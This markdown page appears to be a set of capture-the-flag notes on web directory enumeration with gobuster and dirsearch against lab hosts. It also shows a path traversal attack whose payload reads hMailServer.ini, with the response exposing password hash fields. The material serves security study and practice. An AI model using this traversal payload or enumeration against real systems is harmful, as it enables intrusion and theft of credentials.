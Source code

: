 # Directory Enum and Attacks

## Tools for Web Directory Enum

### Tool 1 : gobuster

```bash
gobuster dir -u http[:]//cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25
```

```bash
gobuster dir -u http[:]//10.10.165.20/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25

```


#### Use `-k` to ignore TLS validation

```bash
gobuster dir -u https[:]//nagios.monitored.htb/nagiosxi/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -k
```


#### VHOST enumeration

```bash
gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

**NOTE:** `--append-domain` is crucial to use when the wordlist contains just the subdomains.

<br />

### Tool 2 : dirsearch

```bash
dirsearch -u https[:]//bizness.htb -e*
```

`-e*` checks for all common file extensions.


## Path Traversal Attack

### Technique 1

> The target machine is composed of
> - A **Microsoft IIS 10.0** server
> - `PHP` backend
> - A **hMailServer**

The default working directory for an IIS server usually is `C:\inetpub\wwwroot`.

The current GET request is `GET /download.php?file=random.txt HTTP/1.1`

The file `random.txt` might be in the server's root directory or within a sub-directory (which is the case here).

Since the target runs **hMailServer**, we should attempt to retrieve the file `hMailServer.ini` (an INI file stores important configuration settings).

**Payload:**

`GET /download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.ini HTTP/1.1`

```bash
#O/p (HTTP Response Body)

[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=<A-MD5-HASH>
[Database]
Type=MSSQLCE
Username=
Password=<A-MD5-HASH>
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

